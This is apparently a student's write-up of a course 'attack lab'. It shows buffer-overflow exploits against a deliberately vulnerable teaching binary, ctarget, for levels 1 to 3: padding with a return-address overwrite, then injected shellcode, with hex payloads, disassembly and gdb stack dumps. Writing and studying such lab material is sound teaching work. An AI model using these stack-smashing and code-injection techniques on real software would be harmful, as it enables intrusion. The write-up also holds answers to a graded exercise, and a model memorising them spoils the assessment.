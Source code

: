 * Level 1
You need to redirect the program to execute a procedure that already
exists.

~getbuf~ (the function that introduces the vulnerability by using
~get~) is called by ~test~:
#+begin_src c
  void test()
  {
      int val;
      val = getbuf();
      printf("No exploit. Getbuf returned 0x%x\n", val);
  }
#+end_src

The task consists in getting ~ctarget~ to execute ~touch1~ when
~getbuf~ executes its return statement (rather than returning to
~test~).

#+begin_src c
  void touch1()
  {
      vlevel = 1; /* Part of validation protocol */
      printf("Touch1!: You called touch1()\n");
      validate(1);
      exit(0);
  }
#+end_src

This is the address of touch1: ~00000000004017c0~.  Without looking at
the code further, I've started to add bytes of 0s in front of that
address and tried to whether it worked. After five attempts it
worked. (I've also sorted the bytes so that they are in little
endian.)

Solution:
#+begin_src
echo "00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
c0 17 40 00 00 00 00 00" | ./hex2raw | ./ctarget -q
#+end_src

(
to run gdb:
- dump the raw data into a file:
  #+begin_src shell
    echo "00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    c0 17 40 00 00 00 00 00" | ./hex2raw > raw_input
  #+end_src
- xecute ~gdb ./ctarget~
- set your initial breakpoints
- execute the command ~run -q < raw_input~
(See
https://stackoverflow.com/questions/455544/how-to-load-program-reading-stdin-and-taking-parameters-in-gdb)
)

Explanation: this is the assembly code for ~getbuf~:

#+begin_src asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
#+end_src

As soon as execution enters ~getbuf~ (before executing ~sub
$0x28,%rsp~), ~%rsp~ points to --- that is, at the top of the stack
there is --- the address of the instruction which must be executed
when ~getbuf~ terminates (which happens to be ~0x0000000000401976~).
That is the value we need to change.

We can see that the first thing ~getbuf~ does is to allocate 40 bytes
in its stack frame (by decreasing the value of ~%rsp~ by 40).

Then ~gets~ is called. The first argument passed to ~gets~ is the
value of ~%rsp~. We can then reasonably guess that ~gets~ is going to
write the input it receives onto the stack, starting from its top
(lowest address).

Now if we pass to ~gets~ 40 bytes of zeros (or whatever values) + an
address of 8 bytes, then we should fill the whole 40 bytes allocated
by ~gets~ and overwrite ~0x0000000000401976~ with our new address.
* Level 2
One way to solve level 2 is to make the stack look like this right
before ~getbuf~ execute its ~ret~ instruction:
#+begin_src
(gdb) x/6gz $rsp
0x5561dca0:     0x000000005561dcb0      0x0000000000000000
0x5561dcb0:     0x4859b997fac7c748      0xc3004017ec2404c7
0x5561dcc0:     0xf4f4f4f4f4f4f400      0xf4f4f4f4f4f4f4f4
#+end_src

The top of the stack has been overwritten with the address of my
shellcode (~0x000000005561dcb0~).

This is the string I have passed to ~hex2raw~:
#+begin_src
00 00 00 00 00 00 00 00  /* 40 bytes of nothing */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00 /* address of payload */
00 00 00 00 00 00 00 00
48 c7 c7 fa 97 b9 59    /* payload */
48 c7 04 24 ec 17 40
00
c3

/* 48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi */
/* 48 c7 04 24 ec 17 40 	movq   $0x4017ec,(%rsp) */
/* 00 */
/* c3                   	ret */
#+end_src
* Level 3

First of all, let's compute the string representation of my cookie.

Our cookie is 0x59b997fa.

According to ascii:

'5' => 0x35

'9' => 0x39

'b' => 0x62

'7' => 0x37

'f' => 0x66

'a' => 0x61

So, the string representation of our cookie should be:

5  9  b  9  9  7  f  a
|  |  |  |  |  |  |  |
v  v  v  v  v  v  v  v
35 39 62 39 39 37 66 61

In little endian:

61 66 37 39 39 62 39 35

Exploit:
#+begin_src
00 00 00 00 00 00 00 00  /* 40 bytes of nothing */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00 /* address of payload */
00 00 00 00 00 00 00 00
/* payload: */
c7 84 24 8c 00 00 00
35 39 62 39
c7 84 24 90 00 00 00
39 37 66 61
48 c7 84 24 94 00 00
00 00 00 00 00
48 8d bc 24 8c 00 00
00
48 83 ec 08
48 c7 04 24 fa 18 40
00
c3

/*
movl $0x39623935, 140(%rsp) # half stringified cookie
movl $0x61663739, 144(%rsp) # half stringified cookie
movq $0, 148(%rsp)  # pass pointer to stringified cookie to touch3
leaq 140(%rsp), %rdi
subq $0x8, %rsp
movq $0x004018fa, (%rsp) # address of touch3
ret
*/
#+end_src
